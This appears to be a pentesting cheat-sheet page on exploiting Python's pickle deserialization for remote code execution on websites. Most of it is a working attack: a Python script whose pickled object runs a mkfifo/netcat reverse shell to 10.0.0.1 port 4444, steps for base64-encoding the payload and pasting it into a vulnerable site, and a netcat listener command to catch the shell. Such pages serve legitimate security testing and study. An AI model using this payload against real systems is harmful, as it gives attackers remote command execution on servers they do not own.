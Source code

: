 ```yaml
---
title: Python Pickle RCE
description: The python “pickle” module, that serializes and deserializes a Python object, is vulnerable to remote code execution. If the website uses this module, we may be able to execute arbitrary code.  
tags:
    - Web
refs:
    - https://davidhamann.de/2020/04/05/exploiting-python-pickle/
date: 2023-08-10
draft: false
---
```


## Exploitation

Below is the Python script (**`mypickle.py`**) to generate the payload to reverse shell.

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 4444 > /tmp/f')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.b64encode(pickled))
    # or
    print(base64.urlsafe_b64encode(pickled))
```

Now run this script to generate the Base64 payload.

```bash
python3 mypickle.py
```

Copy the ourput base64 string and paste it to where the payload affects in website.  
Before reloading the web page, start a listener in local machine.

```bash
nc -lvnp 4444
```

Then reload the page. We should get a shell in local terminal.
